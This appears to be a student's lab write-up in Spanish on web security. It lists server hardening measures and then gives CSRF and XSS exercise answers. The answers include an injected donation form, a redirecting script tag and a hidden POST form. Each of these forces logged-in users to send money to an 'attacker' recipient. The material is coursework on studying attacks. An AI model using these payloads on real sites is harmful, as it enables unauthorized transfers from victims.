 # Parte 4 Servidores web
- Validación de entradas.
- Contraseñas seguras.
- Limitación de intentos de login.
- Roles de usuario.
- Acceso restringido a archivos sensibles.
- Uso de CSRF tokens.

# Parte 5 CSRF

## a) Añadir botón para donar

![](image-5.png)

| Pregunta | Respuesta |
| ----------- | - |
| En el campo | ``team`` |
| Introduzco  | ```<form action="http://web.pagos/donate.php?amount=100&receiver=attacker" method="get"> <button type="submit">Profile</button> </form>``` |

## b) Redirigir al ver los comentarios

| Pregunta | Respuesta |
| - | - |
| En el campo | ``comentario`` |
| Introduzco  | ```<script>window.location='http://www.donate.co/?amount=100&destination=ACMEScouting/';</script>``` |

## c) Condiciones para transferir el dinero

Para que las donaciones ocurran, los usuarios que le den al botón o entren a la sección de comentarios, deben estar logeados en la página.

## d) Otro tipo de ataque

```html
<form action="donate.php" method="POST">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="<script>window.location='http://www.donate.co/?amount=100&destination=ACMEScouting/';</script>">
    <input type="submit" value="Realizar donación">
</form>
```